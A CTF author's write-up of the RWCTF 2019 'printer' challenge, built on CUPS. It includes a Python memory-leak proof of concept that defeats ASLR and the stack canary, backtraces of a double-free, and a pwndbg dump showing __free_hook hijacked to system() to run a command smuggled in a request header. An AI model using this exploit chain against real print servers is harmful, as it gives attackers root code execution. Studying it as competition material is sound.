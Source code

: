 
I made a challenge named [printer](https://github.com/bash-c/rwctf2019-final-printer/blob/master/description.md) with [@swing](https://twitter.com/bestswngs) for RWCTF 2019 Final. Congratulations to [@ALLES!](https://twitter.com/allesctf) and [@PPP](https://twitter.com/PlaidCTF) who solved it during the game.

> Thanks [@YmCode](https://twitter.com/DuoDuo20989667) and [@leommxj](https://twitter.com/leommxj) for contributing to this challenge

In brief, `printer` is designed upon [cups](https://www.cups.org/), which implements a printing system based on IPP (Internet Printing Protocol). And this challenge could be solved by a memory disclosure issue (rdar://51373853, fixed in [2c030c7a](https://github.com/apple/cups/commit/2c030c7a06e0c2b8227c7e85f5c58dfb339731d0#diff-969d2ab030004bf3ccdd214161658a15)) and a use-after-free vulnerability introduced by my patch.

The leak procedure is quite simple. Here is a sample POC
```python
u64 = lambda x: struct.unpack('<Q', x.encode('latin'))[0]

# leak
leak_header = {"Cookie": 'a' * 20000}
leak = requests.get(url, headers = leak_header)
leaked = leak.headers["Set-cookie"][16372: ]
#  import pdb; pdb.set_trace()

canary = u64(leaked[0x0: 0x08])
print("canary @ {:#x}".format(canary))
heap = u64(leaked[0x8: 0x10]) - 0xc98
print("heap @ {:#x}".format(heap))
libcups = u64(leaked[0x10: 0x18]) - 0x1d6d7
print("libcups @ {:#x}".format(libcups))
stack = u64(leaked[0x38: 0x40])
print("stack @ {:#x}".format(stack))
elf = u64(leaked[0x48: 0x50]) - 0x1d52b
print("elf @ {:#x}".format(elf))
libc = u64(leaked[0x2b0: 0x2b8]) - 0x132169
print("libc @ {:#x}".format(libc)
```

`ALLES!` just totally ignored this issue and got leaked using the UAF vulnerability. Well guys, you dig more code than I do!

And there is a powerful malloc primitive in `cups/ipp.c`
```C
  3594                  if (n > 0)
  3595                  {
  3596                    if ((value->unknown.data = malloc((size_t)n)) == NULL)
  3597                    {
  3598                      _cupsSetHTTPError(HTTP_STATUS_ERROR);
  3599                      DEBUG_puts("1ippReadIO: Unable to allocate value");
  3600                      _cupsBufferRelease((char *)buffer);
  3601                      return (IPP_STATE_ERROR);
  3602                    }
  3603
  3604                    if ((*cb)(src, value->unknown.data, (size_t)n) < n)
  3605                    {
  3606                      DEBUG_puts("1ippReadIO: Unable to read unsupported value.");
  3607                      _cupsBufferRelease((char *)buffer);
  3608                      return (IPP_STATE_ERROR);
  3609                    }
  3610                  }
```

Due to my patch, we can achieve double-free.

First free
```C
pwndbg> bt
#0  ipp_free_values (attr=attr@entry=0x55a7d64869b0, element=element@entry=0, count=1) at ipp.c:6329
#1  0x00007f47eee1fcd4 in ippSetValueTag (ipp=<optimized out>, attr=0x7ffe9a6c9550, value_tag=IPP_TAG_NOVALUE) at ipp.c:4528                <== trigger free
#2  0x00007f47eee2012c in ippReadIO (src=0x55a7d655a010, cb=cb@entry=0x7f47eee1d741 <ipp_read_http>, blocking=0, parent=parent@entry=0x0, ipp=0x55a7d6486960) at ipp.c:3138
#3  0x00007f47eee207e7 in ippRead (http=<optimized out>, ipp=<optimized out>) at ipp.c:2831
#4  0x000055a7d587b135 in cupsdReadClient (con=0x55a7d6558e60) at client.c:1621
#5  0x000055a7d5899d3c in cupsdDoSelect (timeout=<optimized out>) at select.c:480
#6  0x000055a7d587493a in main (argc=argc@entry=4, argv=argv@entry=0x7ffe9a6d6d28) at main.c:845
#7  0x00007f47eea1eb97 in __libc_start_main (main=0x55a7d587377f <main>, argc=4, argv=0x7ffe9a6d6d28, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7ffe9a6d6d18) at ../csu/libc-start.c:310
#8  0x000055a7d5874eca in _start ()
pwndbg> 
```

Double free
```C
#0  ipp_free_values (attr=attr@entry=0x55a7d64869b0, element=element@entry=0, count=1) at ipp.c:6329
#1  0x00007f47eee1eaa6 in ippDelete (ipp=0x55a7d6486960) at ipp.c:1755
#2  0x000055a7d5879066 in cupsdCloseClient (con=con@entry=0x55a7d6558e60) at client.c:498               <== trigger free
#3  0x000055a7d587b618 in cupsdReadClient (con=0x55a7d6558e60) at client.c:1835
#4  0x000055a7d5899d3c in cupsdDoSelect (timeout=<optimized out>) at select.c:480
#5  0x000055a7d587493a in main (argc=argc@entry=4, argv=argv@entry=0x7ffe9a6d6d28) at main.c:845
#6  0x00007f47eea1eb97 in __libc_start_main (main=0x55a7d587377f <main>, argc=4, argv=0x7ffe9a6d6d28, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7ffe9a6d6d18) at ../csu/libc-start.c:310
#7  0x000055a7d5874eca in _start ()
```

Combining steps above, we can hijack `__free_hook` to `system` using tcache dup. Luckily, the first object to free is request header which can be fully controlled by attackers. 
```C
pwndbg> c
Continuing.

Breakpoint 1, __libc_system (line=0x5559f19aa1b0 "deflate, gzip, identity; touch /tmp/test ;") at ../sysdeps/posix/system.c:180
180	../sysdeps/posix/system.c: No such file or directory.
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────
 RAX  0x7fa177b52440 (system) ◂— test   rdi, rdi
 RBX  0x5559f1a63080 ◂— 9 /* '\t' */
 RCX  0x0
 RDX  0x0
 RDI  0x5559f19aa1b0 ◂— 'deflate, gzip, identity; touch /tmp/test ;'
 RSI  0x7fa177f1e40a (httpClearFields+61) ◂— mov    qword ptr [rbx + r12 + 0x3390], 0
 R8   0x7ffc389c1e48 ◂— 0x6161616161616100
 R9   0x1
 R10  0xffffffff
 R11  0x246
 R12  0x5559f19aa1b0 ◂— 'deflate, gzip, identity; touch /tmp/test ;'
 R13  0x0
 R14  0x1
 R15  0x5559f034c52b (cupsdReadClient+1009) ◂— mov    esi, 0x64
 RBP  0x5559f1a64cb8 ◂— 0x0
 RSP  0x7ffc389c1d98 —▸ 0x7fa177b9ac27 (free+727) ◂— jmp    0x7fa177b9aaa0
 RIP  0x7fa177b52440 (system) ◂— test   rdi, rdi
─────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────
 ► 0x7fa177b52440 <system>          test   rdi, rdi
   0x7fa177b52443 <system+3>        je     system+16 <0x7fa177b52450>
 
   0x7fa177b52445 <system+5>        jmp    do_system <0x7fa177b51eb0>
    ↓
   0x7fa177b51eb0 <do_system>       push   r12
   0x7fa177b51eb2 <do_system+2>     push   rbp
   0x7fa177b51eb3 <do_system+3>     mov    r12, rdi
   0x7fa177b51eb6 <do_system+6>     push   rbx
   0x7fa177b51eb7 <do_system+7>     mov    ecx, 0x10
   0x7fa177b51ebc <do_system+12>    mov    esi, 1
   0x7fa177b51ec1 <do_system+17>    sub    rsp, 0x180
   0x7fa177b51ec8 <do_system+24>    lea    rbx, [rsp + 0xe0]
──────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ rsp  0x7ffc389c1d98 —▸ 0x7fa177b9ac27 (free+727) ◂— jmp    0x7fa177b9aaa0
01:0008│      0x7ffc389c1da0 —▸ 0x7ffc389c2748 ◂— 0x0
02:0010│      0x7ffc389c1da8 —▸ 0x5559f1a63080 ◂— 9 /* '\t' */
03:0018│      0x7ffc389c1db0 —▸ 0x7ffc389c1de8 ◂— 0xd8
04:0020│      0x7ffc389c1db8 —▸ 0x5559f1a63080 ◂— 9 /* '\t' */
05:0028│      0x7ffc389c1dc0 ◂— 0x15a
06:0030│      0x7ffc389c1dc8 ◂— 0xb4aa529aeef52500
07:0038│      0x7ffc389c1dd0 ◂— 0x0
────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────
 ► f 0     7fa177b52440 system
   f 1     7fa177b9ac27 free+727
   f 2     7fa177f1e40a httpClearFields+61
   f 3     5559f034b62e cupsdSendError+120
   f 4     5559f034d16b cupsdReadClient+4145
   f 5     5559f036bd3c cupsdDoSelect+186
   f 6     5559f034693a main+4539
   f 7     7fa177b24b97 __libc_start_main+231
─────────────────────────────────────────────────────────────────────────────────────────────────────
Breakpoint *system
pwndbg> bt
#0  __libc_system (line=0x5559f19aa1b0 "deflate, gzip, identity; touch /tmp/test ;") at ../sysdeps/posix/system.c:180
#1  0x00007fa177b9ac27 in __GI___libc_free (mem=0x5559f19aa1b0) at malloc.c:3094
#2  0x00007fa177f1e40a in httpClearFields (http=0x5559f1a63080) at http.c:303
#3  0x00005559f034b62e in cupsdSendError (con=con@entry=0x5559f1a61ed0, code=HTTP_STATUS_BAD_REQUEST, auth_type=0) at client.c:1952
#4  0x00005559f034d16b in cupsdReadClient (con=0x5559f1a61ed0) at client.c:1626
#5  0x00005559f036bd3c in cupsdDoSelect (timeout=<optimized out>) at select.c:480
#6  0x00005559f034693a in main (argc=argc@entry=4, argv=argv@entry=0x7ffc389d0b18) at main.c:845
#7  0x00007fa177b24b97 in __libc_start_main (main=0x5559f034577f <main>, argc=4, argv=0x7ffc389d0b18, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7ffc389d0b08) at ../csu/libc-start.c:310
#8  0x00005559f0346eca in _start ()
```

You can read my full exploit [here](https://github.com/bash-c/rwctf2019-final-printer/blob/master/solve.py)

Since printed file is cached in `/var/spool/cups` , we can achieve the first two steps (spawn a calculator and read printed file) now. 

```
                       ^\    ^
                      / \\  / \
                     /.  \\/   \      |\___/|
  *----*           / / |  \\    \  __/  O  O\
  |   /          /  /  |   \\    \_\/  \     \
 / /\/         /   /   |    \\   _\/    '@___@
/  /         /    /    |     \\ _\/       |U
|  |       /     /     |      \\\/        |
\  |     /_     /      |       \\  )   \ _|_
\   \       ~-./_ _    |    .- ; (  \_ _ _,\'
~    ~.           .-~-.|.-*      _        {-,
 \      ~-. _ .-~                 \      /\'
  \                   }            {   .*
   ~.                 '-/        /.-~----.
     ~- _             /        >..----.\\\
         ~ - - - - ^}_ _ _ _ _ _ _.-\\\
```



As for the third step,

> 3. print this message `hacked by {your_team_name}`

I designed this step to bring this challenge more real. Imagine you have hacked into some printer, the first thing to do is to make the victim be unknown, that's to say, to make sure the printer works well and can print things normally.

Since we got a root shell by pwnning the binary `cupsd`, print-related command like `echo "hacked by RWCTF" | /usr/bin/lpr` will be hung to our shell.  Simply restart the `cupsd` binary could solve our problem.
